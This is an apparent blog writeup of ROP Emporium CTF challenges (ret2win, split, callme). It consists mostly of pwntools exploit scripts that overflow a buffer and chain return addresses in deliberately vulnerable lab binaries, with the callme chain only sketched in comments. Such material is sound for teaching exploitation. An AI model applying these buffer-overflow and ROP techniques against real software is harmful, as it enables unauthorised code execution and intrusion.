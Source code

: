 ```yaml
---
layout: post
title:  "ROP-Emporium x86 Writeup"
date:   2021-03-28 11:59:00 +0900
categories: CTF
---
```


## ret2win
EXP:
```python
from pwn import *

sh = process("./ret2win")

x = b'1'*40 + p64(0x400756)

sh.sendline(x)
sh.interactive()
```

## split
EXP:
```python
from pwn import *

sh = process('./split')
payload = b'1'*40 + p64(0x4007c3) + p64(0x601060) + p64(0x40074b)
sh.sendline(payload)
sh.interactive()
```

## callme
EXP:
```python
from pwn import *

sh = process("./callme")

'''
'1' * 0x20 buffer 
'1' * 0x08 rbp
pop rdi,ret
0xdeadbeefdeadbeef
pop rsi,pop rdx, ret
0xcafebabecafebabe
0xd00df00dd00df00d
callme_one
pop rdi, ret
0xdeadbeefdeadbeef
pop rsi,pop rdx, ret
0xcafebabecafebabe
0xd00df00dd00df00d
callme two
pop rdi,ret
0xdeadbeefdeadbeef
pop rsi,pop rdx, ret
0xcafebabecafebabe
0xd00df00dd00df00d
callme three
'''
```
